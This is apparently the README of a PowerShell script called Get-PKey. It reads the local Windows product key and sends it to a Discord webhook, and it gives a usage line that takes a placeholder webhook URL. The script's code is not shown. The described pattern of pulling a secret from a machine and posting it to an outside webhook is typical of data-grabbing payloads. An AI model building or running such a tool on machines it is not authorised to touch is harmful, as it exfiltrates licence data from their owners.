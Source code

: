 # Get-PKey PowerShell Script

This PowerShell script retrieves the product key from the local machine and sends it to a specified Discord webhook.

## Functions

### 1. Send-DiscordWebhookMessage
Sends a message to a specified Discord webhook.

#### Parameters:
- `$WebhookUrl`: The URL of the Discord webhook you want to send a message to.
- `$Message`: The message you want to send to the Discord webhook.

### 2. Get-PKey
Retrieves the product key from the local machine and sends it to the specified Discord webhook.

#### Parameters:
- `$wb`: The URL of the Discord webhook you want to send the product key to. This is a mandatory parameter.

## Usage

```powershell
Get-PKey -wb 'YOUR_DISCORD_WEBHOOK_URL_HERE'
```

Replace `'YOUR_DISCORD_WEBHOOK_URL_HERE'` with your actual Discord webhook URL.
